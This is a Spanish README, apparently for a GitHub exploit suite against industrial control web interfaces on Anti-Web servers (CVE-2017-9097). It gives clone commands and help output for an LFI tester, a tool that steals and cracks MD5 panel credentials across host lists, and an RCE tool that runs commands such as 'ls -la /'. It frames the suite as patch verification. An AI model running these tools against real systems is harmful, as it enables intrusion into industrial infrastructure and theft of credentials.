 # AntiWeb: Testing Suite

## Introducción 
Una vulnerabilidad ha sido encontrada en aplicaciones web usadas en ics/ot que corren sobre servidores Anti-Web (hasta 3.8.7).
La vulnerabilidades que se han identificado  afectan a varios fabricantes de renombre en la industria de la automatización de procesos industriales y telecomunicaciones. Estos devices ya cuentan con dos viejos CVEs (CVE-2010-4730 & CVE-2010-473) a lo que luego de reportar consiguió un tercero CVE (2017-9097) e inmediatamente el vendor lanzó un parche. En inmediatamente siguieron otros. 


Para tener una referencia aproximada del grado de exposición con la que cuentan esto dispositivos nos valemos de los host que se encuentran indexados en Shodan, siendo estos un poco mayor de 800 devices potencialmente vulnerables. 

Con respecto al LFI que nuestra tool procura de explotar, hoy los distintos vendors afectados ya cuentan con sus respectivos parche oficiales que contrarresta la vulnerabilidad. Por lo que de alguna forma el intentar explotar el fallos viene a corroborar el compromiso de los operadores y responsables de estas tecnologías, respondiendo a una pregunta fundamental: "Se habrán instalado los parches correspondientes?" 

# Las tools son 3:
Una de las primeras herramientas procura explotar y corroborar la existencia de un LFI. Una segunda herramienta tratara de sacarle partido al LFI, tomando el archivo en donde se guardar las credenciales que dan acceso al panel web. El donde los usernames están en plano y las passwords están hasheadas con md5 que la herramienta tratara de romper.
y finalmente una última herramienta que explotara un RCE. 



# Quick start

usr@pwn:~$ git clone https://github.com/ezelf/AntiWeb_testing-Suite
usr@pwn:~$ cd AntiWeb_testing-Suite
usr@pwn:~$ ls -l 

***
total 16
drwxr-xr-x 4 root root 4096 sep 14 21:05 LFI
drwxr-xr-x 4 root root 4096 sep 14 21:05 RCE
-rwxrwxr-x 1 root root 1852 sep 24 08:42 README.md
drwxr-xr-x 3 root root 4096 sep 24 08:00 seekAndDestroy
***


# Uso: "Anti-web" 
***
 	usr@pwn:~$ python anti-web-v1.py --help
	usage: anti-web.py [-h] [-v] --host HOST [--port PORT] [--file LFI]

	[+] CVE: CVE-2017-9097

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    host
	  --port PORT    set port (default = 80)
	  --file LFI     Test LFI

	[+] Demo: anti-web.py --host 192.168.1.100 --port 80
***

# Uso: "Seek And Destroy"

***
usr@pwn:~$ python seekAndDestroy.py --help
usage: seekAndDestroy.py [-h] [-v] [--host HOST] [--list HOST_LIST]
                         [--port PORT]

[+] Obtain and break the credentials of your industrial control system .

optional arguments:
  -h, --help        show this help message and exit
  -v, --version     show program's version number and exit
  --host HOST       host
  --list HOST_LIST  hosts
  --port PORT       set port (default = 80)

[+] Usage: seelAndDestroy.py --list host_list.txt --port 8080

***


# Uso: 

***
usr@pwn:~$ python rce.py --help
usage: RCE.py [-h] [-v] --host HOST [--port PORT] -ck COOKIE --cmd COMMAND

[+] COMMANDS over your industrial control system .

optional arguments:
  -h, --help     show this help message and exit
  -v, --version  show program's version number and exit
  --host HOST    Host
  --port PORT    Port
  -ck COOKIE     Cookie
  --cmd COMMAND  Command

[+] Demo: python rce.py --host <host> -ck <sessionCookie> --cmd "ls -la /"

***

## Demo

....Wait




Las herramientas en cuestión están en (AntiWeb_testing-Suite):
https://github.com/ezelf/AntiWeb_testing-Suite/


Video que combina las tres tools:
https://www.youtube.com/watch?v=HdkZA1DO08Y

 
